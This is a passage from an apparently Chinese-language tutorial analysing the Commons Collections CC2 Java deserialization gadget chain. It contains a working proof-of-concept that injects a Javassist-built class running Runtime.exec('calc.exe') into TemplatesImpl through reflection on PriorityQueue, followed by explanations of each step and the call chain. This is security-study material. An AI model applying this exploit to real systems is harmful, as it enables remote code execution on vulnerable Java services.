        TransformingComparator comparator = new TransformingComparator(transformer);
        PriorityQueue queue = new PriorityQueue(1);

        ClassPool pool = ClassPool.getDefault();
        pool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
        CtClass cc = pool.makeClass("Cat");
        String cmd = "java.lang.Runtime.getRuntime().exec(\"calc.exe\");";
        // 创建 static 代码块，并插入代码
        cc.makeClassInitializer().insertBefore(cmd);
        String randomClassName = "EvilCat" + System.nanoTime();
        cc.setName(randomClassName);
        cc.setSuperclass(pool.get(AbstractTranslet.class.getName())); //设置父类为AbstractTranslet，避免报错
        // 写入.class 文件
        byte[] classBytes = cc.toBytecode();
        byte[][] targetByteCodes = new byte[][]{classBytes};
        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        setFieldValue(templates, "_bytecodes", targetByteCodes);
        // 进入 defineTransletClasses() 方法需要的条件
        setFieldValue(templates, "_name", "name");
        setFieldValue(templates, "_class", null);//为了进入defineTransletClasses满足条件

        Object[] queue_array = new Object[]{templates,1};


        queue.add(1);
        queue.add(1);


        Field queue_field = Class.forName("java.util.PriorityQueue").getDeclaredField("queue");
        queue_field.setAccessible(true);
        queue_field.set(queue,queue_array);//让PriorityQueue的queue属性等于TemplatesImpl对象


        Field comparator_field = Class.forName("java.util.PriorityQueue").getDeclaredField("comparator");
        comparator_field.setAccessible(true);
        comparator_field.set(queue,comparator);

        try{
            ObjectOutputStream outputStream = new ObjectOutputStream(new FileOutputStream("./cc2"));
            outputStream.writeObject(queue);
            outputStream.close();

            ObjectInputStream inputStream = new ObjectInputStream(new FileInputStream("./cc2"));
            inputStream.readObject();
        }catch(Exception e){
            e.printStackTrace();
        }

    }

    public static void setFieldValue(final Object obj, final String fieldName, final Object value) throws Exception {
        final Field field = getField(obj.getClass(), fieldName);
        field.set(obj, value);
    }

    public static Field getField(final Class<?> clazz, final String fieldName) {
        Field field = null;
        try {
            field = clazz.getDeclaredField(fieldName);
            field.setAccessible(true);
        }
        catch (NoSuchFieldException ex) {
            if (clazz.getSuperclass() != null)
                field = getField(clazz.getSuperclass(), fieldName);
        }
        return field;
    }
}
```

一些构造POC的问题：

1. 为什么要通过反射的方式来设置queue的值，而不能直接add？

   这是因为在put的时候会将后一个元素与前一个元素进行比较，而 templates 是一个类，他和数字1无法进行比较，所以这里会报错。同样的，如果传入一个对象和另外一个对象，两者也无法进行比较，都会报出如下错误：

   

   所以需要通过反射的方式来对 queue 的值进行设置。

2. 为什么要修改 queue 数组的第一个值为 TemplatesImpl ?

   是因为在调用 compare 方法的时候，传递了一个obj1进去：

   

   因为 InvokerTransformer 调用方法是基于你传递进来的类来进行调用的，所以这里的 obj1 需要设置为 TemplatesImpl，而这个 obj1是从这里来的：

   

   所以我们需要控制这个c，而这个c是从 queue 中取出来的，所以在这里我们需要设置 queue 中第一个值为 TemplatesImpl，为什么不能设置为第二个呢？是因为调用 compare 时，会先对第一个进行调用，如果我们设置 TemplatesImpl 在第二个位置，则会报出 1 没有 newTransformer 方法的错误：

   

3. 为什么有两次add，而且要放在修改 queue 数组之前？
   两次 add 是为了让 size>1 ，要放在修改 queue 数组之前还是因为调用 compare 时，会先对第一个进行调用，如果先两次add，也会爆出上面一样的错误

利用链：

```java
ObjectInputStream.readObject()
    PriorityQueue.readObject()
        PriorityQueue.heapify()
            PriorityQueue.siftDown()
                PriorityQueue.siftDownUsingComparator()
                    TransformingComparator.compare()
                        InvokerTransformer.transform()
                                Method.invoke()
                                    TemplatesImpl.newTransformer()
                                         TemplatesImpl.getTransletInstance()
                                         TemplatesImpl.defineTransletClasses
                                         newInstance()
                                            Runtime.exec()
```


## Reference

https://paper.seebug.org/1242

P神知识星球

https://www.cnblogs.com/rickiyang/p/11336268.html
